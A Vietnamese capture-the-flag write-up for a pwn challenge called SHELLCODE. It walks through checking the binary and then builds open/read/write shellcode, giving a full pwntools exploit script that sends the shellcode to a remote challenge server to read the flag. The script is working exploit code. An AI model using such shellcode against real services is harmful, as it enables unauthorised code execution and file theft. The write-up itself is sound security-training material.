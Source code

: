 # SHELLCODE (pwn)

> Dễ mà tự viết đi trên trên mạng không có đâu
>
> - Bắt buộc dùng open, read, write để đọc flag
> - Không cần quan tâm đến seccomp
> - Dùng syscall ngoài open, read, write sẽ bị khóa

## Exploit

- Kiểm tra chương trình với `file`, là file binary 64bit

  ![file-check.png](images/file-check.png)

- Kiểm tra với `checksec`, NX được tắt, có thể exploit bằng shellcode, nhưng chỉ giới hạn ở các hàm `open`, `read`, `write`

  ![checksec-check.png](images/checksec-check.png)

- Chạy chương trình, ta cần đọc file `PhaPhaKhongCoDon.txt`

  ![initial-exec.png](images/initial-exec.png)

- Đầu tiên là đẩy tên file vào stack, mỗi lần như thể thỉ tối đa 8 bytes nên phải thực hiện 3 lần, lúc này `PhaPhaKhongCoDon.txt` nằm tại `rsp`

  ```python
    'mov rax, %d' % u64(b'.txt\0\0\0\0'),
    'push rax',
    'mov rax, %d' % u64(b'ongCoDon'),
    'push rax',
    'mov rax, %d' % u64(b'PhaPhaKh'),
    'push rax',
  ```

- Sau đó mở file, với syscall number là 0x2, tên file sẽ vào `rdi`, nên sẽ `mov` tên file từ `rsp`, và mode `O_RDONLY = 0`

  ```python
  'mov rax, 0x2',
  'mov rdi, rsp',
  'xor rsi, rsi',
  'xor rdx, rdx',
  'syscall',
  ```

  ![open.png](images/open.png)

- Sau đó ta sẽ đọc file, đầu tiên file descriptor được lưu ở rax, nên `mov` vào `rdi`, với buffer để lưu dữ liệu trong file, nhằm chắc chắn thanh ghi có có địa chỉ, ta sẽ sử dụng `rsp`, và buffer size sẽ là `0x50`. Syscall number là 0x0

  ```python
  'mov rcx, rax',
  'xor rax, rax',
  'mov rdi, rcx',
  'mov rsi, rsp',
  'mov rdx, 0x50',
  'syscall',
  ```

  ![read.png](images/read.png)

- Cuối cùng là in flag ra, với buffer như ở trên sẽ là `rsp`, độ dài sẽ được lưu ở `rax`

  ```python
  'mov rcx, rax',
  'mov rax, 0x1',
  'mov rdi, 0x1',
  'mov rsi, rsp',
  'mov rdx, rcx',
  'syscall'
  ```

- Như vậy, có được code exploit: [ShellCode.py](ShellCode.py)

  ```python
  from pwn import *


  #p = process('./shellcode')

  p = remote('45.122.249.68', '10017')

  context.clear(arch='amd64', os='linux')

  payload = asm('\n'.join([
      'mov rax, %d' % u64(b'.txt\0\0\0\0'),
      'push rax',
      'mov rax, %d' % u64(b'ongCoDon'),
      'push rax',
      'mov rax, %d' % u64(b'PhaPhaKh'),
      'push rax',

      'mov rax, 0x2',
      'mov rdi, rsp',
      'xor rsi, rsi',  # open
      'xor rdx, rdx',
      'syscall',

      'mov rcx, rax',
      'xor rax, rax',
      'mov rdi, rcx',  # read
      'mov rsi, rsp',
      'mov rdx, 0x50',
      'syscall',

      'mov rcx, rax',
      'mov rax, 0x1',
      'mov rdi, 0x1',  # write
      'mov rsi, rsp',
      'mov rdx, rcx',
      'syscall'
  ]))

  p.sendline(payload)
  p.interactive()
  ```

  ![flag.png](images/flag.png)
> Flag: Wanna.One{ve_so_sang_mua_chieu_xo_em_nghi_anh_la_ai_ma_sang_cua_chieu_do}